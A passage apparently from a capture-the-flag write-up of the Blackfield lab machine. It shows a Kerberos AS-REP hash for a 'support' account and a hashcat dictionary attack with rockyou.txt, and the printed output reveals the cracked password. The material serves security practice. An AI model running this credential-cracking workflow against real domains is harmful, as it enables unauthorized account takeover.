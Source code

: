 ```
$krb5asrep$23$support@BLACKFIELD.LOCAL:06d8731e38f1df329fca9472d1c401d1$370b735a62e04596ecb1314328537410c072db996557c731c5e1bb4fd
3ce9cdb0edf2e1c3e62ec133065302e2f9f71b315586c68a0c80e68925d27a350ba9c4165e5485089fb43db2ebad7838948de7d0d1bfda6605b89abf1bcab713c
b369b008bff2773e36bf6a90594b25d9e4e43339d28e8b3e00ab82063eddeca36716411baa48b31e1d3926a42febed1906fe340f49ef0332946f9e031ba291d8b
159f3765433e67ee47695652a7c6d13b7c22c450d73d63198023030a4ca2c0db2ce86b4f73d1bc3f74c2449021e66d4e976007500211fd6cf587a5ee10047b6eb
650afda5a4e059c2aab86f4e4fd6ff70b93d6f49af71
```
We can crack this Kerberos AS-REP hash with help of hashcat.
```
sid@kali:~$ hashcat -m 18200 -a 0 kerberos_hashes.txt /usr/share/wordlists/rockyou.txt --force 

hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-4210U CPU @ 1.70GHz, 5748/5812 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
...
...
...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$support@BLACKFIELD.LOCAL:06d8731e38f1df329fca9472d1c401d1$370b735a62e04596ecb1314328537410c072db996557c731c5e1bb4fd3ce9cdb
0edf2e1c3e62ec133065302e2f9f71b315586c68a0c80e68925d27a350ba9c4165e5485089fb43db2ebad7838948de7d0d1bfda6605b89abf1bcab713cb369b008bff277
3e36bf6a90594b25d9e4e43339d28e8b3e00ab82063eddeca36716411baa48b31e1d3926a42febed1906fe340f49ef0332946f9e031ba291d8b159f3765433e67ee47695
652a7c6d13b7c22c450d73d63198023030a4ca2c0db2ce86b4f73d1bc3f74c2449021e66d4e976007500211fd6cf587a5ee10047b6eb650afda5a4e059c2aab86f4e4fd6
ff70b93d6f49af71:#00^BlackKnight
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$support@BLACKFIELD.LOCAL:06d8731e38f1...49af71
Time.Started.....: Fri Oct  2 18:49:17 2020, (33 secs)
Time.Estimated...: Fri Oct  2 18:49:50 2020, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   444.9 kH/s (11.43ms) @ Accel:32 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 14336000/14344385 (99.94%)
Rejected.........: 0/14336000 (0.00%)
```